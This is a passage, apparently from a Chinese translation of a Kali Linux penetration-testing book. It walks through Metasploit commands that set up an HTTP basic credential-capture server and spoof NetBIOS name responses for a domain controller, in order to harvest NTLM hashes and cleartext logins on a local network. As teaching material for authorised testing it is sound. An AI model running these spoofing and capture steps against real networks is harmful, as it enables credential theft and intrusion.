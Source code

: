 再次设置`SRVHOST`。您可以使用向上箭头键返回到上次设置的方式：

```
set SRVHOST 172.16.42.139  
```

由于`wpad`服务器正在端口`80`上运行，我们需要将此服务移动到不同的 HTTP 端口，因此我们将设置它在端口`443`上运行，并将 SSL 设置为 true，如下所示：

```
set SRVPORT 443 # Set to local service port to 443
set SSL true # This sets a self-signed cert to the port.
set JOHNPWFILE john-cap.txt # This will set an output file.
run -j # Again this will run the job in the background
```

第二种方法将导致 NTLM 登录降级为明文，就像 Responder 附带的 HTTP 服务器一样。使用此捕获方法，凭据将准备好使用。您一次只能使用其中一个模块。尝试同时运行两者将导致第二个崩溃，并有时会导致第一个 HTTP 服务器开始挂起。

要设置并启动 HTTP 基本捕获服务器，请运行以下命令：

```
use auxiliary/server/capture/http_basic
show options  
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/1a856477-c062-40d6-a332-52cb5989e931.png)

再次设置`SRVHOST`。您可以使用向上箭头键返回到上次指定的设置。

如前所述，由于`wpad`服务器正在端口`80`上运行，我们需要将此服务移动到不同的 HTTP 端口，因此我们将设置它在端口`443`上运行，并将 SSL 设置为 true：

```
set SRVPORT 443 # Set to local service port to 443
set SSL true # This sets a self-signed cert to the port.
set SRVHOST 172.16.42.139
run -j # Again this will run the job in the background
jobs # Below we see the three running jobs.  
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/384cfceb-ec5d-4a33-9d8d-3b260aa6e99c.png)

我们还可以运行欺骗程序来帮助捕获。这是`auxiliary/spoof/nbns/nbns_response`模块。帮助文件中有关于此的最佳描述，因此我在这里提供了它：

描述：

这个模块伪造**NetBIOS 名称服务**（**NBNS**）响应。它将监听发送到本地子网广播地址的 NBNS 请求，并伪造响应，将查询机器重定向到攻击者选择的 IP。与`auxiliary/server/capture/smb`或`auxiliary/server/capture/http_ntlm`结合使用，这是一种高效收集常见网络上可破解哈希的方法。此模块必须以 root 身份运行，并将绑定到所有接口上的 UDP/137 端口。

参考：

[`www.packetstan.com/2011/03/nbns-spoofing-on-your-way-to-world.html`](http://www.packetstan.com/2011/03/nbns-spoofing-on-your-way-to-world.html)

对于我们的攻击，我们将欺骗域控制器。域控制器的 IP 地址是`172.16.42.5`。因此，让我们设置我们的欺骗者并运行如下：

```
use auxiliary/spoof/nbns/nbns_response
set INTERFACE wlan0 # your local network interface. For this attack it is wlan0
set SPOOFIP 172.16.42.5 # the victim IP address.
run -j # This will run the job in the background.
```
